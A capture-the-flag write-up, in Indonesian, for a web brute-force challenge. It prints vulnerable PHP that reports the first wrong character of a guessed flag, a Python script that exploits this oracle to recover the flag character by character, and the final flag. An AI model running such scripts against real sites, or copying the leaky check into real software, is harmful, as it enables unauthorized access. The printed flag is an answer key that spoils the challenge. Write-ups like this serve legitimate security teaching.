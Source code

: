 <h1><b>Brut3f0rc3 #1</b></h1>
<pre>
Pertama kali Bruteforce pada website ? Dicoba deh ini

Challenge --> <a href='https://web.ctf.rasyidmf.com/chal16/'>URL</a>
</pre>
<h3><b>Solution</b></h3>
<p>Lihat source code codingan https://web.ctf.rasyidmf.com/chal16/?source=1</p>

```php
<?php
include 'flag.php';
    $input = @$_GET['flag'];
    if ($input != "" && strlen($input) == 36) {
        $res = "";
        for($i = 0; $i < 36; $i++) {
            if ($flag[$i] == $input[$i]) {
                $res .= $flag[$i];
            } else {
                echo "Karakter pada index <b>$i</b> : <b>$input[$i]</b> tidak sama dengan flag yang ada<br><br>";
                return;
            }
        }
        echo "Here is your flag : " . $flag . "<br><br>";
    }
?>
```
<p align='justify'>Pada statment sourcode inputan flag harus 36 character termasuk "CTFR{flag}, dan berikut script bruteforce untuk challenge"</p>

```python3
import requests

letter = 'abcdefghijklmnopqrstuvwxyz0123456789_'
list_hasil = []
flag = ''
for j in range(30,-1,-1):
    for i in letter:
        full = flag+i.ljust(j,'?')
        data = {'flag':'CTFR{'+full+'}'}
        res = requests.post('https://web.ctf.rasyidmf.com/chal16/',params=data).text
        if 'Here is your flag' in res:
            print(res)#CTFR{brut3_f0rc3_m4k3_y0u_f33l_g00d}
            break
        list_hasil.append(int(res.split('<b>')[1].replace("</b> : ",'')))
    flag += letter[list_hasil.index(max(list_hasil))]
    list_hasil = []
```
<h3><b>Flag</b></h3>
<pre>
CTFR{brut3_f0rc3_m4k3_y0u_f33l_g00d}
</pre>
